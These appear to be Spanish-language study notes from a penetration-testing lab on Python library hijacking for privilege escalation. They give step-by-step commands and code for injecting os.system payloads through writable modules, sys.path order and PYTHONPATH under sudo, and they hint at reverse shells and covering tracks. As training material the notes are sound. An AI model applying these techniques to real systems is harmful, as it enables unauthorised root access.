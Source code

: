 # 📚 **Guía Rápida: Python Library Hijacking**

### 🎯 **Objetivo**

Ejecutar código malicioso aprovechando malas configuraciones en cómo Python carga sus librerías, consiguiendo escalada de privilegios.

## ✅ **Pre-requisitos generales**

- Un **script Python** ejecutable como **SUID** o con **sudo**.
    
- Tener **permiso de lectura** sobre dicho script.
    
- Acceso para modificar librerías o influir en la carga de módulos.

## 🔍 **Método 1: Hijacking por permisos de escritura incorrectos**

### 🔄 **Concepto**

Modificar directamente una librería legítima que tenga permisos de escritura para nuestro usuario.

### 🧩 **Pasos**

1. **Identificar un script Python ejecutable con sudo o SUID**
    
```bash
ls -l script.py
# Buscar SUID (-rws) o posibilidad de ejecutarlo con sudo.
```
2. Asegurarte de tener permisos de lectura sobre el script
	Esto te permitirá inspeccionar el código.
3. **Leer el script y detectar la librería y función usada**

```python
import psutil
available_memory = psutil.virtual_memory()
```
- 📌 **Objetivo**: Saber qué módulo importa (`psutil`) y qué función específica llama (`virtual_memory()`).

4. Localizar la función dentro de la librería:
```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/
```
5. **Verificar si tenemos permisos de escritura en el fichero que contiene la función**
```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

```

6. **Insertar código malicioso**  
Modificamos la función objetivo, por ejemplo:
```python
import os
os.system('id')  # o una reverse shell
```

7. Ejecutar el script vulnerable con privilegios
```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 2: Hijacking mediante la manipulación del Library Path**

### 🔄 **Concepto**

Crear una librería falsa en una ruta de mayor prioridad (según `sys.path`) que la ruta oficial.
### 🧩 **Pasos**

1.  Ver la ubicación del módulo utilizado por el script que podemos ejecutar como sudo o suid:
```bash
htb-student@lpenix:~$ pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...
```
2. **Consultar el orden de búsqueda de módulos de Python**
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

3. Identificar rutas superiores con permisos de escritura:
```bash
ls -ld /usr/lib/python3.8
```

4. Crear una librería falsa en la ruta escribible
En `/usr/lib/python3.8/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

5. Ejecutar el script vulnerable

```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 3: Hijacking usando la variable PYTHONPATH**

### 🔄 **Concepto**

Modificar `PYTHONPATH` para que Python cargue módulos desde una carpeta controlada por nosotros.

### 🧩 **Pasos**

1. **Verificar permisos sudo para setear variables de entorno**
    
```bash
sudo -l
# Buscar SETENV en la salida (ejemplo: SETENV: NOPASSWD: /usr/bin/python3)

```

2. **Crear una librería falsa en una carpeta controlada**  
En `/tmp/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

3. Ejecutar el script forzando PYTHONPATH:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```


## 🚩 **Indicadores de éxito**

- Se ejecuta tu payload (`id` muestra `uid=0(root)`).
    
- Puedes obtener una shell o ejecutar comandos con privilegios elevados.
    

---

## 💡 **Notas y consejos**

- **`sys.path`** siempre es el orden real de búsqueda de Python.
    
- **PYTHONPATH** se inserta **al principio** de `sys.path` cuando está definida.
    
- Siempre limpia tu rastro tras la explotación.
    
- Asegúrate de que tu módulo falso tenga **el mismo nombre y función** que el original (misma firma de la función).